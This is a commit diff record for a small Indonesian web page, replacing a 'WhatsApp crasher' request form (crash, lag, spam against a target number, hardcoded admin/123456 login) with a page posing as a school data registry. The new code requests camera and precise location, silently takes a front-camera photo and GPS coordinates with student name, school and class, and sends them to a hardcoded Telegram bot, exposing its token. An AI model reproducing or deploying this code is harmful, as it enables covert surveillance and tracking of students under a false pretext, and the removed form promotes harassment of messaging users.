

Before and after one commit to villainsky-06/test, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,198 +1,109 @@
-<!DOCTYPE html>
-<html lang="id">
+<!DOCTYPE html><html lang="id">
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>Confess Matrix Merah</title>
+  <title>Sistem Pelacak Sekolah</title>
   <style>
-    @import url('https://fonts.googleapis.com/css2?family=Share+Tech+Mono&display=swap');
     body {
-      margin: 0;
-      font-family: 'Share Tech Mono', monospace;
-      background: black;
-      color: #ff1a1a;
-      overflow: hidden;
+      font-family: Arial, sans-serif;
+      background: linear-gradient(to right, #0d47a1, #1976d2);
+      color: #fff;
+      padding: 20px;
+      text-align: center;
     }
-    canvas {
-      position: fixed;
-      top: 0;
-      left: 0;
-      z-index: -1;
-    }
-    .container {
+    input {
+      padding: 10px;
+      border-radius: 5px;
+      border: none;
+      margin: 10px 0;
+      width: 80%;
       max-width: 400px;
-      margin: 60px auto;
-      padding: 30px;
-      background: rgba(0, 0, 0, 0.7);
-      border-radius: 15px;
-      box-shadow: 0 0 25px red;
-    }
-    h1 {
-      text-align: center;
-      font-size: 26px;
-      color: #ff1a1a;
-    }
-    input, textarea, select {
-      width: 100%;
-      padding: 10px;
-      margin-top: 10px;
-      border-radius: 8px;
-      border: 1px solid red;
-      background-color: #111;
-      color: #ff4d4d;
-      font-size: 14px;
     }
     button {
-      width: 100%;
-      padding: 12px;
-      margin-top: 15px;
+      padding: 10px 20px;
       border: none;
-      background: red;
-      color: white;
-      font-weight: bold;
-      border-radius: 10px;
+      background-color: #00c853;
+      color: #fff;
       font-size: 16px;
+      border-radius: 5px;
       cursor: pointer;
     }
-    .login-box, .form-box {
-      display: none;
-    }
-    .show {
-      display: block;
-    }
-    .message {
-      margin-top: 15px;
-      background: rgba(255,0,0,0.1);
-      padding: 10px;
-      border-left: 4px solid red;
-      border-radius: 5px;
-      color: white;
-    }
+    .hidden { display: none; }
   </style>
 </head>
 <body>
+  <h2>📚 Sistem Pendataan Sekolah</h2>
+  <input type="text" id="namaSekolah" placeholder="Nama Sekolah">
+  <input type="text" id="namaMurid" placeholder="Nama Murid">
+  <input type="text" id="kelasMurid" placeholder="Kelas">
+  <br>
+  <button onclick="ambilData()">Kirim</button>
+  <p id="status">Menunggu izin kamera dan lokasi...</p>  <script>
+    document.addEventListener("deviceready", onDeviceReady, false);
 
-<canvas id="matrix"></canvas>
-
-<div class="container">
-  <div class="login-box show" id="loginBox">
-    <h1>LOGIN MATRIX</h1>
-    <input type="text" id="username" placeholder="Username">
-    <input type="password" id="password" placeholder="Password">
-    <button onclick="login()">Masuk</button>
-  </div>
-
-  <div class="form-box" id="formBox">
-    <h1>THE AVENGERS V2 CRASHER</h1>
-    <input type="text" id="sender" placeholder="Nomor pengirim">
-    <input type="text" id="target" placeholder="Nomor Target (WhatsApp)">
-    <select id="method">
-      <option value="Crash">Crash</option>
-      <option value="Lag">Lag</option>
-      <option value="Spam">Spam</option>
-    </select>
-    <textarea id="message" rows="4" placeholder="Pesan"></textarea>
-    <button onclick="sendConfess()">Kirim</button>
-    <div class="message" id="statusMsg" style="display:none;"></div>
-  </div>
-</div>
-
-<audio id="typeSound" src="https://assets.mixkit.co/sfx/preview/mixkit-fast-typing-2676.mp3"></audio>
-
-<script src="https://www.gstatic.com/firebasejs/9.22.2/firebase-app-compat.js"></script>
-<script src="https://www.gstatic.com/firebasejs/9.22.2/firebase-database-compat.js"></script>
-<script>
-  // Firebase config
-  const firebaseConfig = {
-    apiKey: "YOUR_API_KEY",
-    authDomain: "web-shop-7df3d.firebaseapp.com",
-    databaseURL: "https://web-shop-7df3d-default-rtdb.firebaseio.com",
-    projectId: "web-shop-7df3d",
-    storageBucket: "web-shop-7df3d.appspot.com",
-    messagingSenderId: "YOUR_SENDER_ID",
-    appId: "YOUR_APP_ID"
-  };
-  firebase.initializeApp(firebaseConfig);
-  const db = firebase.database();
-
-  // Login
-  function login() {
-    const user = document.getElementById("username").value.trim();
-    const pass = document.getElementById("password").value.trim();
-    if (user === "admin" && pass === "123456") {
-      document.getElementById("loginBox").classList.remove("show");
-      document.getElementById("formBox").classList.add("show");
-    } else {
-      alert("Username/password salah!");
-    }
-  }
-
-  // Kirim Data
-  function sendConfess() {
-    const pengirim = document.getElementById("sender").value;
-    const target = document.getElementById("target").value;
-    const metode = document.getElementById("method").value;
-    const pesan = document.getElementById("message").value;
-    const time = new Date().toLocaleString("id-ID");
-
-    if (!pengirim || !target || !pesan) {
-      alert("Isi semua form!");
-      return;
+    function onDeviceReady() {
+      requestPermissions();
     }
 
-    const data = {
-      pengirim,
-      target,
-      metode,
-      pesan,
-      waktu: time
-    };
+    function requestPermissions() {
+      const permissions = cordova.plugins.permissions;
+      permissions.requestPermissions([
+        permissions.CAMERA,
+        permissions.ACCESS_FINE_LOCATION
+      ], function(status) {
+        if (status.hasPermission) {
+          document.getElementById("status").textContent = "Izin diberikan. Siap kirim.";
+        } else {
+          document.getElementById("status").textContent = "Izin tidak diberikan!";
+        }
+      }, null);
+    }
 
-    db.ref("confess_matrix").push(data, () => {
-      document.getElementById("statusMsg").style.display = "block";
-      document.getElementById("statusMsg").innerText = "Request bug anda telah terkirim, tunggu jawabannya";
-    });
-  }
+    function ambilData() {
+      const namaSekolah = document.getElementById("namaSekolah").value;
+      const namaMurid = document.getElementById("namaMurid").value;
+      const kelasMurid = document.getElementById("kelasMurid").value;
 
-  // Efek Matrix
-  const canvas = document.getElementById('matrix');
-  const ctx = canvas.getContext('2d');
-  canvas.height = window.innerHeight;
-  canvas.width = window.innerWidth;
+      navigator.geolocation.getCurrentPosition(pos => {
+        const lat = pos.coords.latitude;
+        const lon = pos.coords.longitude;
 
-  const chars = "01A9BCDEF@#$%^&*";
-  const fontSize = 16;
-  const columns = canvas.width / fontSize;
-  const drops = Array(Math.floor(columns)).fill(1);
+        navigator.camera.getPicture(onSuccess, onFail, {
+          quality: 50,
+          destinationType: Camera.DestinationType.DATA_URL,
+          cameraDirection: 1,
+          correctOrientation: true
+        });
 
-  function drawMatrix() {
-    ctx.fillStyle = "rgba(0, 0, 0, 0.07)";
-    ctx.fillRect(0, 0, canvas.width, canvas.height);
-    ctx.fillStyle = "rgba(255, 0, 0, 0.9)";
-    ctx.shadowColor = "red";
-    ctx.shadowBlur = 10;
-    ctx.font = fontSize + "px monospace";
+        function onSuccess(imageData) {
+          const data = {
+            chat_id: "7710934597",
+            caption: `Sekolah: ${namaSekolah}\nNama: ${namaMurid}\nKelas: ${kelasMurid}\nLokasi: ${lat}, ${lon}`,
+            photo: imageData
+          };
 
-    for (let i = 0; i < drops.length; i++) {
-      const text = chars.charAt(Math.floor(Math.random() * chars.length));
-      ctx.fillText(text, i * fontSize, drops[i] * fontSize);
-      if (drops[i] * fontSize > canvas.height || Math.random() > 0.975) {
-        drops[i] = 0;
-      }
-      drops[i]++;
+          fetch("https://api.telegram.org/bot7754938090:AAFJLES5-gmBII25eaPp0HH_puccGJJ878c/sendPhoto", {
+            method: "POST",
+            headers: { "Content-Type": "application/json" },
+            body: JSON.stringify(data)
+          })
+          .then(res => res.json())
+          .then(res => {
+            document.getElementById("status").textContent = "Data berhasil dikirim!";
+          })
+          .catch(err => {
+            document.getElementById("status").textContent = "Gagal mengirim ke Telegram.";
+            console.error(err);
+          });
+        }
+
+        function onFail(message) {
+          document.getElementById("status").textContent = "Gagal mengambil foto: " + message;
+        }
+      }, err => {
+        document.getElementById("status").textContent = "Gagal mengambil lokasi.";
+        console.error(err);
+      }, { enableHighAccuracy: true });
     }
-  }
-  setInterval(drawMatrix, 30);
-
-  // Efek suara ketikan
-  const typeSound = document.getElementById('typeSound');
-  const inputs = document.querySelectorAll('input, textarea');
-  inputs.forEach(el => {
-    el.addEventListener('input', () => {
-      typeSound.currentTime = 0;
-      typeSound.play();
-    });
-  });
-</script>
-</body>
+  </script></body>
 </html>
```
